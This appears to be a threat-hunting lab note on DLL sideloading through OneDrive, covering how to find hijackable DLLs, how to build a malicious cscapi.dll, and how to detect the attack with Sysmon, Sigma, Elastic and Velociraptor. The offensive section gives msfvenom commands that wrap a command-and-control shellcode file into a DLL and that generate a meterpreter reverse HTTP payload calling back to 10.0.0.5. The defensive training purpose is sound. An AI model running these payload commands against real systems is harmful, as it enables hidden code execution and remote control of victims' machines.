

# Lab - DLL Hijacking
onedrive -> Appdata -> cscapi.dll

- writeable by all users
- hijackable

> EXPORTS -> use exported functions in your dll (csharp dll's don't have a dllmain function)

### 1. NIRSOFT ddlexport viewer


### 2. ROHITAB API Monitor


### 3. SYSINTERNALS Process Monitor


### 4. DUMPBIN (Visual Studio)

Check which function onedrive actually imports from VERSION.dll

Open a visual studio developer prompt:



```bash
cd C:\Users\Threatadmin\AppData\Local\Microsoft\OneDrive
dumpbin OneDrive.exe /imports:VERSION.dll
```


# AUTOMTING DLL Sideloadble applications
<https://github.com/Cybereason/siofra>


<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell


# C dll

building your dll

<https://github.com/Pascal-0x90/sideloadr>
<https://github.com/Pascal-0x90/sideloadr/compare/master...WS-G:sideloadr:master>


```bash
rundll32 shell32.dll,Control_RunDLL c:\thev\labs\DLL_Sideloading\version.dll
```

LoaderLock!!!

<https://www.prodefense.io/blog/dll-sideloading>

# Evasion Code Execution

Make sure OneDrive Last released build 25.070.0413.0001 is installed <https://go.microsoft.com/fwlink/?linkid=844652>
```bash
cat demon.x64.bin | msfvenom -p - -a x64 --platform windows -f dll -o cscapi.dll
```

STAGELESS PAYLOAD

```bash
msfvenom -p windows/x64/meterpreter_reverse_http lhost=10.0.0.5 lport=80 -f csharp
```


# BYOB (Bring Your own Binary)
OLEVIEW

# DETECTION

<https://github.com/wietze/windows-dll-hijacking/tree/master>

Use sysmon to look for loading of known system32/syswow dll's that are :
- not signed
- not loaded from their usual locaction (system32/syswow)

<https://github.com/TactiKoolSec/SideLoadHunter>

```yaml
  <RuleGroup name="OneDrive_Sideload_Attempt" groupRelation="or">
    <ImageLoad onmatch="include">
      <Image condition="contains">onedrive.exe</Image>
      <ImageLoaded condition="contains">version.dll</ImageLoaded>
      <Signature condition="is not">Microsoft Windows</Signature>
    </ImageLoad>
  </RuleGroup>
```

Open ELEX (or eventviewer):


>Custom detection rules for known Windows DLLs being loaded from non Windows path’s such as System32 could also be used to identify DLL Sideloading attacks. Doing this for non Windows DLLs however is not that easy, as there are too many different vendors and binaries/DLLs to track all of them.

OK Great - but ***are you collecting all those noisy logs*** (dll load events are super noisy) in your SIEM, probobly not as they are already in your EDR logs, hopefully.

SO now we need to write queries for MEDR, SentinelOne, Crowdstrike, PAN Cortex etc... This can be very annoying, so let's standardize our signatures, so we can use them on any platform.

SIGMA!!!

```yaml
title: OneDrive Version.dll Sideload Attempt
id: a9ab91a8-f50c-48e8-8478-17e119eed9c0 # can be generated with https://www.uuidgenerator.net/version4
author: Threathunting Academy
date: 2025/06/06
modified: 2025/06/06
status: experimental 
logsource:
  product: windows
  service: sysmon
detection:
  selection_image:
    Image|contains: 'onedrive.exe'
  selection_loaded_dll:
    ImageLoaded|contains: 'version.dll'
  filter:
    Signature|contains: 'Microsoft Windows'
  condition: selection_image and selection_loaded_dll and not filter
falsepositives:
  - Unknown
level: high
tags:
  - attack.defense_evasion
  - attack.t1574.001 # DLL Side-Loading
  - attack.t1574.002 # DLL Search Order Hijacking
  ```

  You can extend this list with all known signed dll's in SYSTEM32:

  ```powershell
  Get-AuthenticodeSignature -FilePath "C:\Windows\System32\notepad.exe" | Select-Object Path, Status, StatusMessage, @{Name='Issuer (O=)'; Expression={($_.SignerCertificate.Issuer -match 'O=([^,]+)') | Out-Null; $Matches[1]}} | fl
  ```

  

<https://sigconverter.io/>

Here's our ELASTIC query (as an example backend)


```powershell
from * metadata _id, _index, _version | where Image like "*onedrive.exe*" and ImageLoaded like "*version.dll*" and not Signature like "*Microsoft Windows*"
```

> UHOH : We don't have the logs in our SIEM, nor in our EDR solution's datalake - now what? Well we can still find logs on the endpoint (if the logs haven't rolled over), how do we get those logs remotely off of that endpoint (and preferably without exporting ALL eventlogs)?

# VELOCIRAPTOR can do this, and integrates with Sigma

> CAVEAT : Velociraptor doesn't like "CATEGORY" in sigma - so avoid using that! Other sigma backends do support that, such as ESQL and Splunk. If you have a sigma rule that has the `category` just delete it.

Velociraptor's Sigma implementation does not officially support the category: field in the logsource section of Sigma rules in the same way that traditional Sigma backends (like Elastic or Splunk) do.

Why category: Might Not Work in Velociraptor
Velociraptor uses a custom Sigma backend that maps logsource fields to VQL artifacts.
While product: and service: are commonly supported and mapped, the category: field is not consistently implemented or recognized.
If you include category: image_load, and there's no explicit mapping for that category in Velociraptor’s backend, the rule will silently fail to match any events.

<https://sigma.velocidex.com/docs/models/windows_base/>

<https://sigma.velocidex.com/docs/sigma_in_velociraptor/customize/>


